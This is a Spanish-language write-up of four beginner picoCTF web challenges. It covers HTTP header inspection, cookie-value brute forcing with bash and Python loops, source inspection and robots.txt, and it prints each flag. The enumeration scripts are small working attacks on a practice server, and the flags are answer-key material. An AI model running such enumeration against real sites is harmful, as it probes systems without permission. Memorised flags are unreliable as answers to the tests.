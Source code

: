## GET aHEAD

Nos dan una web que tiene dos botones "elige rojo" y "elige azul", si le das a uno se cambia el color del fondo.
Con el azul lo toma como peticion POST a index.php mientras que verde es GET a index.php?. Inspeccionando el codigo fuente con el curl no he encontrado
ninguna flag ni ruta escondida. Examinando las peticiones con las herramientas del navegador tampoco encontre gran cosa. Estaba algo perdido hasta que me 
dio por hacer un curl -I para ver si habia mas informacion en los headers y di con la flag.
```bash
~:$ curl http://mercury.picoctf.net:53554  -I
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```
Tiene sentido porque el titulo del reto dice de HEAD y los colores daban la pista de probar a cambiar los metodos (get = rojo, post = azul )
Con burpsuite cambie a HEAD y me salio lo mismo (el el metodo que usa el curl -I).

--------------------------------------------------------------------

## COOKIES

En esta web nos pone un "buscador de cookies" y la palabra "snickerdoodle" de ejemplo (supongo que sera una marca de cookies). Si pongo esa misma palabra
dice "I love snickerdoodle cookies!". Como estamos hablando todo el reto de las cookies, mire en el navegador en Cookies. Pone 0. Si le das a "home",
te sale el bscador otra vez y en cockies un -1. Si pongo otros numeros me sale el mensaje de "I love" otros tipos de cookies asi que supongo que 
habra que fuzzear o applicar algun tipo de sqli sencilla. Replicaos con curl la peticio:
```console
~:$ curl -s http://mercury.picoctf.net:6418 -H "Cookie: name=0"  -L | html2text
**** Cookies ****
×  That is a cookie! Not very special though...
I love snickerdoodle cookies!
```
Con un script de bash se pueden probar muchos numeros
```bash
for numero in $(seq 1 30); do
    peticion=$(curl -s "http://mercury.picoctf.net:6418/" -H "Cookie: name=$numero" -L | html2text )
    if ! echo $peticion | grep "Not very special" > /dev/null; then
        echo  "[Cookie nº -> $numero] $peticion" 
        exit 0
    fi  
done
```
```console
~:$ bash cookie.sh 
[Cookie nº -> 18] 
Flag: picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
```
Para practicar quise hacer el equivalente en python.
```python
for number in range(20):
    req = requests.get("http://mercury.picoctf.net:6418/", cookies = {"name":str(number)})
    if not "That is a cookie! Not very special though..." in req.text:
        print(number)
```
--------------------------------------------------------------------

## Insp3ct0r

Aqui nos dan la web de alguien que acaba de empezar a programar "Mi primera web :)"
COn el *curl* (viendo el codigo fuente) tenemos 1/3 de la flag -> ```picoCTF{tru3_d3``` Tambien nos dan rutas a su .js y su .css, que al verlas
obetenemos el resto ```picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?832b0699}```

--------------------------------------------------------------------

## Where are the robots.

Este reto lo resolvi muy rapidamente ya que se que hay una ruta llamada *"/robots.txt"* (referenciada por el titulo del reto) que suele contener rutas
ocultas (que no indexen los buscadores como Google). La ruta que me dio es */477ce.html* y ahi estaba la flag.



















